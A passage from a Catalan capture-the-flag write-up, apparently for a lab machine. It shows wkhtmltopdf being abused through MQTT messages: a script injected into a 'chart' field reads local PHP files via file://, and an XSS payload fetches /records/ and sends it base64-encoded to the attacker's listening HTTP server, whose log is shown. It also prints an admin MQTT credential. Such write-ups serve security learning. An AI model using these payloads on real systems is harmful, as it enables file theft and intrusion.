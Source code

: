 Podem observar que són documents creats amb `wkhtmltopdf 0.12.6.1`, que té el CVE `CVE-2022-35583`, però aquest no serà el cas.

Intentem un LFI, però no ho aconseguim amb el fitxer `/etc/passwd`, encara que sí que ho aconseguim amb alguns fitxers PHP dels serveis web.

### Pas 1

Enviem el següent `JSON` al topic `record` mitjançant el client MQTT utilitzant l'usuari `admin:tJH8HvwVwC57BR6CEyg5` per intentar llegir el fitxer `/var/www/solar.nyx/records/index.php` del servidor:

```json
{
  "time": "2024-07-13T00:07:36.621Z",
  "user": {
    "name": "JulianAdm",
    "role": "admin"
  },
  "solar": 232,
  "consumed": 223,
  "grid": -9,
  "chart": "\"><script>\np='/var/www/solar.nyx/records/index.php';\nx=new XMLHttpRequest;\nx.onerror=function(){{document.write('<p>'+p+' not found')}};\nx.onload=function(){{document.write('<p>'+p+'</p><div style=\"word-break: break-all;max-width:90%;\">'+btoa(this.responseText)+'</div>')}};\nx.open(\"GET\",\"file://\"+p);x.send();\n</script><x=\""
}
```

Podem modificar la variable `p='/var/www/solar.nyx/records/index.php'` per seleccionar altres fitxers.

Comprovem que el payload s'ha enviat correctament al topic `record` des del client MQTT.

### Pas 2

Tornem a obtenir al nostre servei HTTP el llistat dels últims `/records/`, enviant el següent JSON al topic `data`:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => { location.href='http://192.168.1.116/?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/')).arrayBuffer())));})(); \" />",
  "consumedEnergy": 15
}
```

Decodifiquem el base64 del paràmetre `data` rebut:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 02:04:35] "GET /?data=PCFET0NUWVBFIGh0bWw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU ... gICAgICAgICAgICAgICAgIDwvdGFibGU+CiAgICAgICAgPGEgaHJlZj0iLi4vZGFzaGJvYXJkLnBocCIgY2xhc3M9ImxvZ291dC1saW5rIj4mbHQ7IEJhY2s8L2E+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== HTTP/1.1" 200 -
```

